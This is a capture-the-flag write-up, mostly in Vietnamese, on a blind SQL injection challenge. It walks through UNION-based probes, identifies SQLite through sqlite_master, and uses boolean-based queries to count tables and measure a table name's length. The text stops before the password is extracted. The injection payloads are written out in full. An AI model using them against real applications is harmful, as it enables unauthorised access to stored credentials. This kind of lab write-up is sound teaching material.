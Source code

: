 # Description:

Exploit blind sqli to get admin password, then login at "/login" to get flag. Password contains [a-z0-9_] and the column is upw

# Solutions:

= Thử với `'UNION SELECT 1,2,3-- -` thì trả về đã tồn tại:
<img width="921" height="393" alt="image" src="https://github.com/user-attachments/assets/41789fb2-ad83-46ae-bbe2-7f6515be694b" />

= Thử với `'UNION SELECT 1,2,3,4-- -` thì trả kết quả không đúng số cột:
<img width="929" height="305" alt="image" src="https://github.com/user-attachments/assets/7f666b75-ac43-4c86-a80d-ad6952b62a94" />

= Thử với `'UNION Select 1,2,sql FROM information_schema-- -` thì hiện kết quả:
<img width="909" height="297" alt="image" src="https://github.com/user-attachments/assets/fa7da424-7ea7-4f03-89bf-5995343f9de7" />

=> Không phải CSDL là MySQL, Oracle,.. . Thử với SQLite:

```
'UNION Select 1,2,sql FROM sqlite_master-- -
```

= Trả về kết quả:
<img width="838" height="131" alt="image" src="https://github.com/user-attachments/assets/5ec9c7d2-8156-4a1a-adab-f8401a756fbe" />

=> Sử dụng SQLite

= Thử `Boolean Based`:
<img width="767" height="227" alt="image" src="https://github.com/user-attachments/assets/2150f4c6-23e9-4b34-ad5b-e360312aee73" />

=> Đây là Boolean Based

`SELECT * FROM users WHERE uid='107' AND (SELECT length(upw) FROM users)-- ';` nên ta thấy db là users và bảng là uid

= Tính số bảng bằng cách thử từ 1 trở lên:

```
107' or ((SELECT count(*) FROM sqlite_master WHERE type='table')=1)--
```

=> CÓ 1 bảng thôi

= Tính độ dài tên của bảng:

```
107' or ((SELECT length(name) FROM sqlite_master WHERE type='table')=1)--
```

=> Trả về: `User 107' or ((SELECT length(name) FROM sqlite_master WHERE type='table')=1)-- not found!`

=> Độ dài khác, thử tiếp đến khi độ dài = 5 thì hiện thông báo `User 107' or ((SELECT length(name) FROM sqlite_master WHERE type='table')=5)-- exists`
